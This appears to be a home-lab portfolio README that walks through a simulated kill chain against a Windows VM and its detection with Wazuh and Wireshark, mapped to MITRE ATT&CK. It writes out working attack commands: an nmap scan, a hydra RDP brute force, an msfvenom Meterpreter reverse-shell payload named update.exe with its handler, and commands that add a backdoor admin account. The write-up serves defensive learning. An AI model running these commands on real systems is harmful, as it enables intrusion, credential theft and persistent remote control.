







# 🎯 Full Attack Kill Chain — Detected with Wazuh SIEM + Wireshark

> My flagship home-lab project. I simulated a **complete multi-stage cyber attack** — reconnaissance, brute force, payload delivery, a reverse shell, privilege escalation/persistence, and command-and-control — against a Windows victim, and **detected every stage from two angles at once**: **Wazuh** (host / SIEM / XDR) and **Wireshark** (network / packet analysis). The whole incident is mapped to the **MITRE ATT&CK** framework.
>
> This project ties together everything in my portfolio — SOC engineering, packet analysis, offensive techniques, custom detection rules, and incident reporting — into one end-to-end story.


---

## 📌 Table of Contents
1. [Summary](#-summary)
2. [Why Two Tools?](#-why-two-tools)
3. [Lab Architecture](#-lab-architecture)
4. [Phase 1 — Reconnaissance](#-phase-1--reconnaissance-port-scan)
5. [Phase 2 — Brute Force](#-phase-2--brute-force-credential-access)
6. [Phase 3 — Gaining Access](#-phase-3--gaining-access-reverse-shell)
7. [Phase 4 — Privilege Escalation & Persistence](#-phase-4--privilege-escalation--persistence)
8. [Phase 5 — Command & Control](#-phase-5--command--control)
9. [Kill-Chain Summary & MITRE Mapping](#-kill-chain-summary--mitre-mapping)
10. [Detection Gaps & Lessons Learned](#-detection-gaps--lessons-learned)
11. [Disclaimer](#-disclaimer)

---

## 📝 Summary

An external attacker targets a company workstation. They **scan** it, **brute-force** the login, **deliver a payload**, catch a **reverse shell**, create a **backdoor admin account**, and open a **C2 channel**. Acting as the SOC, I detected and reconstructed the entire intrusion — proving each stage with evidence from both the **endpoint (Wazuh)** and the **network (Wireshark)**, and mapping the chain to MITRE ATT&CK.

---

## 🧠 Why Two Tools?

A real SOC never relies on a single source of truth. Host logs and network packets each see things the other can't:

- **Wazuh (host/SIEM/XDR)** sees what happens *on the machine* — failed logons, account creation, privilege changes.
- **Wireshark (network)** sees what happens *on the wire* — port scans, the reverse-shell connection, C2 beaconing, data transfer.

Using both is what lets you catch the *whole* attack — and spot where one tool is blind (see [Detection Gaps](#-detection-gaps--lessons-learned)).

---

## 🏗️ Lab Architecture

An isolated lab across two physical machines.

| Role | Host | IP |
|------|------|-----|
| 🧠 SOC Server | Ubuntu / Wazuh (SIEM + XDR) | `10.0.0.9` |
| 🎯 Victim | Windows 10 (`pc1`) + Wazuh agent | `10.0.0.23` |
| 🔴 Attacker | Kali Linux + Wazuh agent + Wireshark | `10.0.0.21` |

---

## 🔭 Phase 1 — Reconnaissance (Port Scan)

**Attack (Kali):**
```bash
nmap -sS -sV 10.0.0.23
```

**🦈 Network (Wireshark):** a burst of SYN packets from `10.0.0.21` hitting dozens of different ports on `10.0.0.23` in seconds — the unmistakable signature of a port scan.



**🧠 Host (Wazuh):** nothing — a SYN scan never completes a connection, so Windows logs it nowhere. *This is an important, deliberate finding* (see Detection Gaps).

**MITRE:** `T1046` Network Service Scanning · `T1595` Active Scanning

---

## 🔓 Phase 2 — Brute Force (Credential Access)

**Attack (Kali):**
```bash
hydra -t 4 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.0.0.23
```

**🧠 Host (Wazuh):** the flood of **"Logon Failure"** events (rule 60122) is automatically **correlated** into a single higher-severity **"Multiple Windows Logon Failures"** alert (rule **60204, level 10**) — the SIEM recognizes the *pattern* as a brute force, not just isolated failures.



**MITRE:** `T1110` Brute Force

---

## 💥 Phase 3 — Gaining Access (Reverse Shell)

**Attack (Kali):** generate a Meterpreter payload, host it, catch the session.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.21 LPORT=4444 -f exe -o update.exe
python3 -m http.server 80
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 10.0.0.21; set LPORT 4444; exploit"
```
The victim downloaded `update.exe` and ran it → a Meterpreter session opened, giving full control of `PC1`:



**🦈 Network (Wireshark):** the reverse-shell connection from the victim (`10.0.0.23`) back to the attacker (`10.0.0.21`) on port **4444**:



**🧠 Host (Wazuh):** the compromise is also reflected in the host logon activity on `pc1`:



**MITRE:** `T1204` User Execution · `T1059` Command & Scripting Interpreter

---

## 🔑 Phase 4 — Privilege Escalation & Persistence

**Attack (on the victim):**
```cmd
net user backupsvc P@ssw0rd123! /add
net localgroup administrators backupsvc /add
```

**🧠 Host (Wazuh):** the full persistence chain is caught — and crucially, **my own custom detection rule (ID 100100, level 12)** fires specifically for the `backupsvc` backdoor account, alongside the built-in "Administrators Group Changed" (60154):



> This is detection engineering: I turned a generic built-in alert into a precise, named, MITRE-tagged detection for this specific threat.

**MITRE:** `T1136.001` Create Account: Local Account

---

## 📡 Phase 5 — Command & Control

**🦈 Network (Wireshark):** following the TCP stream of the session reveals the ongoing **C2 traffic** between victim and attacker on port 4444 — the encrypted Meterpreter channel carrying commands and responses:



The regular, bidirectional PSH/ACK packets on port 4444 are the live command-and-control channel — exactly the kind of persistent connection a network analyst learns to flag.

**MITRE:** `T1071` Application Layer Protocol (C2) · `T1041` Exfiltration Over C2 Channel

---

## 🗺️ Kill-Chain Summary & MITRE Mapping

| # | Stage | Attack | Detected by | MITRE |
|---|-------|--------|-------------|-------|
| 1 | Reconnaissance | Nmap port scan | 🦈 Wireshark (SYN burst) | T1046 |
| 2 | Credential Access | RDP brute force | 🧠 Wazuh (rule 60204) | T1110 |
| 3 | Initial Access | Reverse-shell payload | 🦈 Wireshark (:4444) + Meterpreter | T1204 / T1059 |
| 4 | Persistence / PrivEsc | Backdoor admin account | 🧠 Wazuh (**custom rule 100100**) | T1136.001 |
| 5 | Command & Control | Meterpreter C2 channel | 🦈 Wireshark (Follow Stream) | T1071 / T1041 |

---

## 🧯 Detection Gaps & Lessons Learned

Building this end to end taught me as much about **blind spots** as detections — which is exactly the mindset a SOC analyst needs:

- **Host logs can't see a scan.** The recon scan produced *zero* SIEM alerts, because a SYN scan never completes a connection for Windows to log. It was only visible at the network layer. **This is why a mature SOC pairs a SIEM with network visibility (packet capture / IDS).**
- **Default Windows logging doesn't capture process execution or network connections.** To make Wazuh also detect `update.exe` running and the outbound connection to 4444, the endpoint needs **Sysmon** feeding the agent (planned as the next improvement). Out of the box, Wazuh caught the logon/account events but not the process/network telemetry — a gap worth knowing.
- **Correlation beats raw volume.** Wazuh's value in Phase 2 wasn't the hundreds of failed logons — it was the single correlated "Multiple Logon Failures" alert that turns noise into a verdict.
- **Two tools, one story.** Neither tool alone tells the whole story; together they reconstruct the entire intrusion.

**Planned improvements:** add Sysmon for host process/network telemetry, integrate Suricata for network IDS alerts inside Wazuh, and enable active response to auto-block the attacker IP.

---

## ⚠️ Disclaimer

> Performed entirely within an isolated home lab I own. All attacks targeted my own virtual machines, for educational and defensive (Blue Team) purposes only. Never run these techniques against systems you don't own or lack explicit written authorization to test.

---

<p align="center"><i>Flagship project — a full attack kill chain, detected across host and network, mapped to MITRE ATT&CK.</i></p>
